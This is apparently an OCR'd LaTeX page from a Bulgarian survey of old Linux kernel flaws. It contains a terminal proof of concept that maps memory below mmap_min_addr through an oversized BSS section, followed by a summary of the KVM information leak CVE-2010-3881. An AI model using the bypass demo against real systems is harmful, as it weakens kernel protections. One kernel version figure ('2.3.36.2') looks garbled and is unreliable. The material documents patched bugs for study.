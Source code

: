 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\begin{verbatim}
$ uname -m
x86_64
$ cat /proc/sys/vm/mmap_min_addr
65536
$ cat install_special_mapping.s
section .bss
    resb BSS_SIZE
section .text
    global _start
    _start:
        mov     eax, __NR_pause
        int     0x80
$ nasm -D__NR_pause=29 -DBSS_SIZE=0xfffed000 -f elf
       -o install_special_mapping.o install_special_mapping.s
$ ld -m elf_i386 -Ttext=0x10000 -Tbss=0x11000 
       -o install_special_mapping install_special_mapping.o
$ ./install_special_mapping &
[1] 14303
$ cat /proc/14303/maps
0000f000-00010000 r-xp 00000000 00:00 0       [vdso]
00010000-00011000 r-xp 00001000 00:19 2453665 /home/taviso/install_special_mapping
00011000-ffffe000 rwxp 00000000 00:00 0       [stack]

\end{verbatim}
\paragraph{}
Проблемът е оправен на 2010-12-15. \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=462e635e5b73ba9a4c03913b77138cd57ce4b050}}
Съществува от 2007-07-19.


\section{CVE-2010-3881 CVSS Score 1.9}
\subsection{Описание}
\paragraph{}
arch/x86/kvm/x86.c в Linux ядрата преди 2.3.36.2 не инициализира някои членове на структурите \textit{kvm\_vcpu\_events}, \textit{kvm\_debugregs}, \textit{kvm\_pit\_state2} и \textit{kvm\_clock\_data}, което позволява обикновен потребител евентуално да получи важна информация от стека на паметта на ядрото чрез операции за четене върху /dev/kvm устройството\footnote{KVM - Kernel-based Virtual Machine - пълно решение за виртуализация на Linux за x86 хардуер. Съдържа разширение - Intel VT или AMD-V. Състои се от модул към ядрото \textit{kvm.ko} и специфични за процесора разширения \textit{kv-intel.ko} и \textit{kvm-amd.ko}}.
\paragraph{}
Проблемът е оправен на 2010-11-01\footnote{\url{http://git.kernel.org/?p=virt/kvm/kvm.git;a=commit;h=831d9d02f9522e739825a51a11e3bc5aa531a905}}.
\end{document}
